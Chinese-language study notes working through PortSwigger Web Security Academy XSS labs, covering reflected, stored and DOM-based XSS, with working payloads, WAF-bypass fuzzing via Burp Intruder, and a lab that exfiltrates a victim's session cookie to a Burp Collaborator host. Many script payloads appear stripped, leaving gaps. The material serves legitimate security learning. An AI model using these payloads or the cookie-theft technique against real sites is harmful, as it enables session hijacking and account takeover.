





#XSS跨站脚本攻击#
XSS根据恶意脚本的传递方式可以分为3种，分别为反射型、存储型、DOM型，前面两种恶意脚本都会经过服务器端然后返回给客户端，相对DOM型来说比较好检测与防御，而DOM型不用将恶意脚本传输到服务器在返回客户端，这就是DOM型和反射、存储型的区别，

**秘籍：**

	1.参考XSS攻击的payload全集，可以用于XSS的fuzz，也可以搜索攻击代码 https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
	2.https://www.w3schools.com/ 里面包含多方面知识学习，如javascript，html，SQL，C#等语法，对象说明和练习
##一、portswigger训练场##
###1.XSS的概念###
绝大部分的XSS漏洞都是通过注入一段payload，硬气浏览器执行任意的JavaScript脚本。通常用alert()函数来测试，但是Chrome浏览器从2021.7开始，alert()函数受到了限制。在这种情况下，建议采用print()函数作为代替。
###2.XSS攻击的类型###
主要分为三种：

	1.反射性XSS，恶意脚本来源于当前的HTTP请求；
	2.存储型XSS，唯一代码来源于网站的数据库；
	3.DOM型XSS，漏洞存在于客户端代码；
前两种和服务器相关，第三种和客户端相关。
###3.反射性XSS###
反射型XSS是最简单的XSS.当一个应用从HTTP请求中接受数据，并以不安全的形式在即时响应中包含该数据，则会出现反射性XSS。以下是一个简单的例子:

	https://insecure-website.com/status?message=All+is+well.
	
Status: All is well.

这个应用不会执行任何其他数据的处理，故攻击者能够简单地构建如下的攻击：

	https://insecure-website.com/status?message=
	
Status: 

如果一个用户访问了攻击者构建的URL，然后该脚本就在用户的浏览器中运行了。这时候，该脚本能够执行任意行为，并获取用户的数据。

####3.1什么是反射型XSS####
假设一个网站有一个搜索功能，能够在一个URL中以参数形式接受用户提供的搜索内容：

	https://insecure-website.com/search?term=gift

然后这个应用响应请求，输出提供的搜索内容：
	
	
You searched for: gift

假设应用不执行其他数据的处理，攻击者能够构建如下的攻击：

	https://insecure-website.com/search?term=

这个URL会导致如下的响应：

	
You searched for: 

如果另一个该应用的用户请求了攻击者的URL，那么攻击者提供的脚本就会在受害的用户的浏览器中执行，运行在应用会话的上下文中。

注意：攻击者可以构建带有恶意脚本的link，发送给用户，还能够URL压缩，将一个长link伪装成一个很短的link，如：

###lab1HTML上下文中的反射型XSS###
目的：利用XSS,实现alert函数。
显示一个搜索框，输入内容111后，查看源码，发现如下：

                   <section class=blog-header>
                        <h1>0 search results for '111'</h1>
                        

                    </section>
                    <section class=search>
                        <form action=/ method=GET>
                            <input type=text placeholder='Search the blog...' name=search>
                            <button type=submit class=button>Search</button>
                        </form>
                    </section>
发现后端有返回输入的内容，输入的内容会显示在网页中，发现有个标签'h1',可以用于XSS。

搜索框中输入《script》alert(1)《/script》,实际执行代码为：

	<h1> 0 search results for ''</h1>
,在vscode中可以验证，完成

注意：在XSS cheet sheet中找h1标签，onclick事件，可以获取一个payload：

	<h1 onclick="alert(1)" style=display:block>test</h1>

将这个payload直接填入搜索框也能完成任务，在vscode编辑lab1.2.html中可以验证。举一反三，此题解法很多。

####3.2反射型XSS攻击的影响####
如果攻击者能够控制一个脚本在受害者的浏览器中运行，就通常可以威胁该用户。包括以下行为：

	1.执行用户能在该应用中执行的任意行为
	2.查看用户能够查看的信息
	3.修改用户能够修改的信息
	4.发起与其他应用程序用户的交互，包括恶意攻击。
攻击者可以通过各种方法诱导受害者用户发出他们控制的请求，以实现一个反射型XSS攻击。这些方法包括在攻击者控制的网站上放置链接，或在另一个允许生成内容的网站上放置链接，或通过电子邮件、tweet或其他消息发送链接。攻击可以直接针对已知的用户，也可以针对应用程序的任何用户进行不加区别的攻击。
对于攻击的外部传递机制的需要意味着反射XSS的影响通常没有存储型XSS那么严重，存储型XSS可以在脆弱的应用程序本身中传递自包含的攻击。

####3.2.1利用XSS漏洞####
传统的证明找到一个XSS漏洞的方法是用alert函数产生一个弹窗，这是一种证明能够执行任意javascript的简单方式。有时候，攻击者会充分利用漏洞，进一步证明XSS漏洞的危害。本小节给出三种最流行和最有效的方式，利用XSS漏洞。

####3.2.2利用XSS窃取cookies####
攻击者可以利用XSS漏洞将受害者的cookie发送到自己的域中，然后手动将cookie注入到浏览器中，进而模仿受害者。事件中该方法有四个局限性：

	1.受害者可能无法登录
	2.很多应用采用HttpOnly标志来隐藏javascript的cookie
	3.会话可能被锁定到其他因素，比如用户的IP地址。
	4.你还没来得及劫持，会话就超时了。

####lab2利用xss窃取cookies####
靶场在blog的评论功能中包含一个XSS漏洞。受害者会浏览所有的评论。攻击者需要利用漏洞窃取受害者的会话cookie，然后利用这个cookie伪装受害者。

	1.下图中可以看到，评论显示在标签
内，可能存在XSS漏洞，在评论框中输入《script》alert(1)</script>,返回加载后，实现弹框。

	2.窃取cookie：在评论框中输入以下语句：

	
	填入burp collaborator client生成的域名，然后访问网站主页，点击评论后，从burp collaborator client中得到cookie：
	
	POST / HTTP/1.1
    Host: icynmonzbipdvmg88b5ukqiw1n7dv2.burpcollaborator.net
    Connection: keep-alive
    Content-Length: 81
    sec-ch-ua: 
    sec-ch-ua-mobile: ?0
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
    sec-ch-ua-platform: 
    Content-Type: text/plain;charset=UTF-8
    Accept: */*
    Origin: https://ac521fd81fd26734c0c7286f001c0048.web-security-academy.net
    Sec-Fetch-Site: cross-site
    Sec-Fetch-Mode: no-cors
    Sec-Fetch-Dest: empty
    Referer: https://ac521fd81fd26734c0c7286f001c0048.web-security-academy.net/
    Accept-Encoding: gzip, deflate, br
    Accept-Language: en-US
    
    secret=98FRJrWiMfF8z4H6RWRYBilmRfPPifZf; session=bWXDWqFNLPdH26x0Yfg2FYNCIguJNIuQ

	3.点击'home'返回主页，抓取这个请求包，将session替换成获取的session，即模拟了受害者，完成。

####lab3：利用XSS窃取密码####
**靶场在BLOG的评论功能中包含一个XSS漏洞。受害者会浏览所有的评论。攻击者需要利用漏洞窃取受害者的用户名和密码，要求登录受害者的账户。**

####lab4：利用XSS执行CSRF####
**合法用户能在网站上做的所有事，攻击者利用XSS也能够做。利用目标网站，攻击者可能可**以让受害者发送消息，接受好友邀请，提交后门或者转让BIT币等等。

有些网站允许登录状态的用户修改email地址，而不用重新输入密码。如果攻击者发现了XSS漏洞，它能够修改受害者的邮箱，然后重置密码，接管该账户。

这类的利用通常称为CSRF。当CSRF作为独立漏洞发生时，可以添加补丁，如防御CSRF的token。然而当XSS漏洞也存在时，这些防御策略无法提供保护。

####3.3不同上下文中的反射型XSS####
反射型XSS存在很多中变形。应用程序响应中反映的数据的位置决定了利用该漏洞所需的有效负载类型，并可能影响漏洞的效果。同时，如果应用在提交数据之前执行了其他操作，也会影响使用那种XSS payload

当测试反射型和存储型XSS（从攻击者角度无需区分，从学习角度需要区分），关键是鉴别XSS的上下文：
	
	- 攻击者可控的数据存在于响应中
	- 应用对该数据有效化验证和其他操作
基于这样的细节，可以选择多个备用的XSS payload，然后测试其有效性。
####3.3.1 HTML tag之间的XSS####
当xss上下文是文本，并且存在于HTML 的tag之间时，攻击者需要引入一些新的HTML tag来触发javascript。
一些有效的执行JavaScript方法有：

	1.
    2.

####lab5 反射型XSS在HTML上下文之间并且没有进行编码####
搜索框里有XSS漏洞，在搜索里面输入

``
代码显示在HTML tag之间：

完成，说明服务器没有对
	``

代码显示在HTML tag之间：

完成。

####lab7 HTML上下文中的反射型XSS，屏蔽了大部分tag和attributes####
靶场中的搜索框存在反射型XSS漏洞，但是使用了web application firewall来低于普通的XSS向量，要求绕过WAF，调用print()函数。
网页打开后是一个搜索框

输入111后，开始搜索。查看代码：

发现服务器会将搜索的内容打出来，可能存在XSS漏洞，简单的使用以下payload：

	
反馈tag is not allowed

靶场中提示存在WAF，故需要进行FUZZ，看看过滤了哪些。

实现：

	1.将/?search=111请求发送到intruder，将所搜内容处换成<$tag$>,拷贝xss sheet中的所有tag，对tag进行fuzz，如下：

    GET /?search=<§tag§> HTTP/1.1
    Host: ac591f291fdb1504c098165900620079.web-security-academy.net
    Cookie: session=3m3EdtgKPHxOEGKCsnAjgpqQlGrBUrVg
    Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "Windows"
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: https://ac591f291fdb1504c098165900620079.web-security-academy.net/
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close

	发现body和custom tag是没有被屏蔽的

	2.使用body，再次修改将payload修改为：
	/?search=<body §event§="alert(1)">，拷贝xss cheet中的所有attribute，对attribute进行fuzz
	3.发现直接这么改请求，所有属性都反馈protocol error
	4.这是存在编码的问题，在网页搜索框中采用<body onclick=alert(1)>,捕捉该请求，发现该请求发送的时候，部分字段会进行编码，如下：
	GET /?search=%3Cbody+onerror%3Dalert%281%29%3E HTTP/1.1
    Host: ac591f291fdb1504c098165900620079.web-security-academy.net
    Cookie: session=3m3EdtgKPHxOEGKCsnAjgpqQlGrBUrVg
    Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "Windows"
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: https://ac591f291fdb1504c098165900620079.web-security-academy.net/?search=111
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close
	
	5.故采用该请求进行fuzz，将onerror处添上$$,开始fuzz

	6.发现只有resize的attribute可以用，故采用的payload为：
	<body onresize=print()>	
	7.输入payload后，查看代码，发现body语句已经插入到网页中

	通过改变窗口大小，能够触发print函数

	8.根据发送的以下请求：
	GET /?search=%3Cbody+onresize%3Dprint%28%29%3E HTTP/1.1
    Host: ac1a1fea1f7eb440c087319500d50093.web-security-academy.net
    Cookie: session=URivo12FtVfCnTvN2J2mQ6CCqRS6ZRfh
    Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "Windows"
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: https://ac1a1fea1f7eb440c087319500d50093.web-security-academy.net/
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close
	这里要注意，直接发送
	<body onresize=print()>
	是不行的，涉及到URL编码的问题，可能会把一些字符编码，要利用请求包中的字段。

####lab8反射型XSS存在于HTML上下文中并且所有的tag都屏蔽，只剩下自定义的tag####
靶场中屏蔽了所有的HTML tag，除了自定义的tag。
要求执行XSS攻击，注入一个自定义的tag，然后alert document.cookie

所有框中输入111，出现在HTML的标签之间：

可能存在XSS漏洞，继续在所有中输入

	

编码前代码为：

	<xss id=x onfocus=alert(document.cookie) tabindex=1>#x';
由focus事件触发alert函数，结尾处实现focus到这个element的功能，随即触发alert（此处有些不理解）。

####lab9反射型XSS并且屏蔽了event处理和href属性####
靶场中存在反射型XSS，并且有一些tag白名单，但是所有的event和href属性被屏蔽了。要求注入xss一个向量，点击后实现弹窗。提示：需要标记这个向量为click，例如：
	
	<a href="">Click me</a>

搜索框中输入111，有回显，可能存在XSS：

继续输入以下payload：

	
显示tag is not allowed。用burp进行fuzz，看哪些tag能用。结果发现，只有<a><animate><image><svg><title>可以使用。尝试使用<a>,
采用：

	<a id=x onclick=alert(1)>dddd</a>
提示，event is not allowed,故用burp fuzz event，发现所有的event都被屏蔽了。
继续采用href属性，如下：

	<a id=x href="javascript:alert(1)">aaaa</a>
提示attribute is not allowed.目前不知道其他用法。
尝试采用<svg>

答案是：
	<svg><a><text x=100 y=100>123</text><animate attributeName=href to=javascript:alert(1)></a></svg>
	//在svg内需要加上坐标文字才能显示出来
具体不太理解，感觉想不到。
####lab10反射型XSS并且允许有些SVG markup####
靶场中存在XSS漏洞，网站屏蔽了普通的tag，除了一些SVG的tag和event，要求触发alert函数。

	1.搜索框中存在XSS漏洞，存在与HTML标签之间，先用intruder爆破被屏蔽的标签，发现只有svg，animatetransform ，image，title三个标签可以用。
	2.google下svg的语法和使用案例，

	<svg width="120" height="120" viewBox="0 0 120 120"
     xmlns="http://www.w3.org/2000/svg">

    <polygon points="60,30 90,90 30,90">
        <animateTransform attributeName="transform"
                          attributeType="XML"
                          type="rotate"
                          from="0 60 70"
                          to="360 60 70"
                          dur="10s"
                          repeatCount="indefinite"/>
    </polygon>
	</svg>		

	注意到svg中可以使用的element包括animatetransform。
	3.用<svg><animateTransform $event$=alert(1),fuzz可用的event，为了防止编码的问题，现在网页中输入、

	<svg><animateTransform onclick=alert(1)>
	然后用burp抓取这个请求包，发送到intruder，fuzz结果发现，只有onbegin可以使用。
	4.用onbegin重发GET /?search请求包，完成弹框，具体如下：

	

####3.3.2 HTML tag属性内部的XSS####
当XSS上下文在HTML tag的属性值内部，攻击者可能需要先把属性值闭合，结束tag，然后在引入新的JavaScript。例如：

	">
就是把之前的tag先闭合，在引入恶意代码。

这种情况下，通常<和>符号会被过滤或者编码，故输入可能那个无法闭合现有的tag。当攻击者可以闭合属性值的话，他就可以引入一个新的属性，创造一个上下文，如event处理。举例如下：

	" autofocus onfocus=alert(document.domain) x="
这个payload创造了一个onfocus的event，当element接收到focus的时候能够执行JavaScript，并且它新增了autofocus属性来触发onfocus event，从而自动执行JavaScript，不需要用户交互操作。最后，它增加了x="  来补足现有的标记。这样一来，无需闭合tag，也能实现功能。

####lab11属性内部的反射型XSS并且尖括号<被HTML编码####
靶场中的搜索框存在反射型XSS漏洞，并且尖括号<>被HTML编码了。要求利用XSS注入到属性中，触发alert。
进入网站，搜索框输入111，发现代码中有两处出现了111，

在搜索框中输入
	`

攻击者就可以使用下列的payload来打破现有的javas，然后执行自己的JavaScript：
	
	</script>

该方法可行的原因是浏览器首先解析HTML来区分页面的element，包括脚本的模块，然后再解析JavaScript并进一步执行嵌入的脚本。上述的payload打破了原始的脚本，然后可以执行后续自己的脚本。

####lab14 XSS在JavaScript字符串内并且单引号和反斜杠/没有被过滤####
搜索框中输入111，如下图所示：

由于反斜杠没有被过滤，可以通过</script>闭合现有的script，然后执行新的script，payload如下：

	</script>
效果如下：

####打破JavaScript字符串####
当XSS上下文在引号包裹的字符串里面，通常可以打破字符串并直接执行JavaScript。必须按照XSS上下文进行闭合，因为任何语法错误都会阻止整个脚本的执行。
一些有效地打破字符串的方法有：

	1.'-alert(document.cookie)-'
	2.';alert(document,cookie)//
方法一就是将'闭合成'',然后''和alert函数做减法，alert函数也是有返回值的，之后的'也是一样，闭合后做减法，改为加法乘法也是一样道理。方法二就是闭合'，然后;符号另起新代码，然后//符号注释后面的
####lab15反射型XSS在JavaScript字符串中并且尖括号<>被HTML编码

靶场中，搜索框可能存在XSS漏洞，如下图所示：

搜索框中输入《script》进一步检测，发现存在防御机制：

第一处位置没有反应，说明输入内容被编码了，只能从第二处入手，第二处显示&lt之类的内容，google以下，这个在逆向中表示小于号<,在这里也就是指代尖括号<，说明过滤了尖括号，后续还进行了encodeURLComponent函数进行编码，进一步增加难度。第二步的第一处中尖括号变成lt，说明也无法采用
	
	</script>
先闭合之前的script，然后在执行自己的script，这也是行不通的，只能想其他办法。

注意到语句var searchTerms='111',111是自己可以控制的，可以想办法将引号闭合，故payload为：

	'-alert(1)-'
alert(1)为函数，有返回值，''也有返回值，上述就是执行两个减法，中间执行alert函数， 完成。

一些应用程序试图通过使用反斜杠过滤任何单引号字符来防止用户输入打破JavaScript字符串。反斜杠符号存在一个字符前面就是告知JavaScript解释器该字符按照普通字符解析，而不是特殊字符，如字符串终结符。在这种情况下，应用通常会无法过滤反斜杠本身，这意味着攻击者可以使用他们自己的反斜杠字符来抵消应用程序添加的反斜杠字符。例如：
假设输入为：

	';alert(document.domain)//
转换为以下形式：
	\';alert(document.domain)//

现在攻击者可以使用以下的payload：
	\';alert(document.domain)//
转换成以下形式：
	\\';alert(document.domain)//

在这里，第一个反斜杠表明第二个反斜杠符是普通符号，而不是特殊的字符。这意味者后面的'就被解析成四付出的终结符，成功实现攻击。
####lab16反射型XSS在JavaScript字符串内部并且尖括号和双引号被HTML编码同时单引号被转义####
搜索框中输入111，如下：

有结果回显，可能存在xss，继续尝试输入

	
结果如下：

并没有用处，应该是被转义了。但是发现tag <a>中的href的位置字段和onclick字段是可控的，继续尝试。想在href的属性值内部填入javascript:alert(1),发现网页中有格式要求，必须填入.com之类的网址，故无法实现。

只能从onclick入手，原始代码为：

	onclick="var tracker={track(){}};tracker.track('用户填入网址');"

尝试')test.com来闭合引号，发现不符合网址的输入格式，故尝试从在字段后面输入'), 用payload：
	
	http://www.microsoft.com')//
结果如下：

发下'被转义了，前面加了\，//没有变化，尝试绕过反斜杠\，payload为：

	http://www.microsoft.com\')//

发现对反斜杠自身也进行了处理，引号还是没法用，无法实现目的。
故采用题目中的提示，用&apos;标识引号，payload为：

	http://www.microsoft.com&apos;-alert(1)&apos;
完成。
####XSS存在于JavaScript模板中####
JavaScript模板字面就是允许嵌入JavaScript表达式的字符串字面。嵌入的表达式通常被连接到周围的文本中。模板被封装到反引号中，而不是正常的引号标记，嵌入的表达式用${...}的语法区别开。例如，下列的脚本打印了一个包含用户的名字的welcome的消息：
	
	document.getElementById('message').innerText = `Welcome, ${user.displayName}.`;

当XSS上下文在JavaScript模板中，并不需要闭合模板。攻击者只需要采用${...}的语法来嵌入JavaScript表达式，当模板执行的时候，内嵌语句就能够执行。
例如，下列XSS上下文：
	
	
然后就可以使用以下的payload执行JavaScript，不需要闭合模板：

	${alert(document.domain)}

####lab19 反射型XSS存在于模板中并且尖括号、单引号、双引号、反斜杠、反引号都被转义####
进入靶场，搜索框中输入111，如下图：

看到出现了用反引号隔开的JavaScript的模板。

由于模板中可以直接嵌入JavaScript表达式，用${...}隔开即可，故使用payload：
	
	${alert(1)}
结果如下图：

尝试输入
	
观察结果，如下图：

可以看到尖括号反斜杠都被转义了。
###lab3:DOM-based XSS###
DOM—based XSS漏洞是基于文档对象模型Document Objeet Model，DOM)的一种漏洞。 DOM是一个与平台、编程语言无关的接口，它允许程序或脚本动态地访问和更新文档内容、结构和样式，处理后的结果能够成为显示页面的一部分。 DOM中有很多对象，其中一些是用户可以操纵的，如uRI，location，refelTer等。

在搜索框中输入aaa,F12查看网页元素，发现以下语句：

    

输入的在脚本中变为img属性，于是在框中代码进行闭合

payload为

	"><svg onload=alert(1)>

###lab4###
采用innerHTML赋值，
payload为：

	

###lab5###
采用jQuery库中的$选择器来寻找锚点元素，并使用输入框中的内容来改变href属性

开始lab后，进入feedback页面，发现有个网页link为https://aca11f991f8b55d6c0690af300280062.web-security-academy.net/feedback?returnPath=/

在returnPath后输入abcd，查看网页元素，发现以下语句：
<a id="backLink" href="/abcd">Back</a>

也就是说back这个link是可以修改的，于是在网页link中，加入payload，即为https://aca11f991f8b55d6c0690af300280062.web-security-academy.net/feedback?returnPath=javascript：alert（1）

实现点击back，弹出框1

####3.4如何发现反射型XSS漏洞####
burp的web vulnerability scanner能够发现大量的反射型XSS。
手动测试反射型XSS包含以下步骤：
	
	1.测试每个入口点。分别测试应用程序HTTP请求中数据的每个入口点。这包括URL查询字符串和消息体中的参数或其他数据，以及URL文件路径。它还包括HTTP报头，尽管只能通过某些HTTP报头触发的类xss行为，在实践中可能无法利用。

	2.提交随机的字母数字值。对于每个入口点，提交一个惟一的随机值，并确定该值是否反映在响应中。该值应该设计成能够通过大多数输入验证，因此需要相当短并且只包含字母数字字符。但它需要足够长的时间才能使response中意外匹配的可能性降低。大约8个字符的随机字母数字值通常是理想的。您可以使用Burp入侵者的数字有效载荷[https://portswigger.net/burp/documentation/desktop/tools/intruder/payloads/types#numbers]随机生成的十六进制值来生成合适的随机值。您可以使用Burp入侵者的grep有效负载选项自动标记包含提交值的响应。

	3.确定反射型上下文。对于响应中反映随机值的每个位置，确定其上下文。这可能是在HTML标签之间的文本中，在可能被引用的标签属性中，在JavaScript字符串中，等等。

	4.测试一个候选的有效负载。根据反射型上下文，测试初始的候选XSS有效负载，如果它在响应中未修改地反射，将触发JavaScript执行。测试有效负载最简单的方法是将请求发送到Burp Repeater，修改请求以插入候选有效负载，发出请求，然后检查响应，看看有效负载是否可行。一种有效的工作方法是在请求中保留原始的随机值，并将候选XSS有效负载放在它之前或之后。然后在Burp Repeater的响应视图中将该随机值设置为搜索项。Burp将突出显示每个搜索词出现的位置，让你快速定位反射。

	4.测试可能的载荷。如果候选的XSS有效负载被应用程序修改了，或者完全被阻止了，那么将需要根据反射的上下文和正在执行的输入验证的类型，测试可能有效的XSS攻击的替代负载。

	5.在浏览器中测试攻击。最后，如果你成功地找到了一个看起来在Burp Repeater内工作的有效负载，将攻击转移到一个真正的浏览器(通过将URL粘贴到地址栏，或通过在Burp Proxy的拦截视图中修改请求，并查看注入的JavaScript是否确实被执行。通常，最好执行一些简单的JavaScript，比如alert(document.domain)，如果攻击成功，它将在浏览器中触发一个可见的弹出窗口。

####3.5反射型XSS常见的问题####
反射型XSS和存储型XSS有什么区别?

当应用程序从HTTP请求中获取一些输入并以不安全的方式将该输入嵌入到即时响应中时，就会出现反射XSS。对于存储的XSS，应用程序将存储输入并以不安全的方式将其嵌入到以后的响应中。

反射型XSS和自身XSS有什么区别?

Self-XSS涉及到与常规的反射式XSS类似的应用程序行为，但是它不能通过精心设计的URL或跨域请求以正常的方式触发。相反，只有当受害者自己从浏览器提交XSS有效负载时，该漏洞才会被触发。要实现自身XSS攻击，通常需要从社会角度设计受害者将一些攻击者提供的输入粘贴到他们的浏览器中。因此，它通常被认为是一个没有说服力、影响不大的问题。

###4.存储型XSS###
应用接收了不信任的来源的数据，然后以不安全的形式在后续的HTTP请求中包含该数据时，就出现了存储型XSS.

有问题的数据可能通过HTTP请求提交给应用程序;例如，博客文章中的评论、聊天室中的用户昵称或客户订单的联系细节。在其他情况下，数据可能来自其他不可信的来源;例如，一个webmail应用程序显示通过SMTP接收的消息，一个营销应用程序显示社会媒体帖子，或者一个网络监控应用程序显示来自网络流量的数据包数据。

这里是一个简单的存储型XSS漏洞。一个留言板应用程序允许用户提交消息，并显示给其他用户：

	
Hello, this is my message!

该应用不会对数据做任何处理，因此攻击者可以轻松地发送以下消息，进而攻击用户：

	

####4.1什么是存储型XSS####

假设一个网站允许用户提交评论，评论后续在网站上显示。用户提交评论的HTTP请求如下：

	POST /post/comment HTTP/1.1
	Host: vulnerable-website.com
	Content-Length: 100

	postId=3&comment=This+post+was+extremely+helpful.&name=Carlos+Montoya&email=carlos%40normal-user.net

其实存储型和反射型XSS没有本质的区别，只不过是就是是否存放在后端的数据库中。

###5.DOM-based XSS###
当应用的客户端包含JavaScript，能够处理不可信来源的数据，DOM-based XSS就会出现，通常采用将数据写回到DOM的方式。

在下面的例子中，应用采用JavaScript从输入框中读取数据，然后将这个数据写道HTML 的element中：

	var search = document.getElementById('search').value;
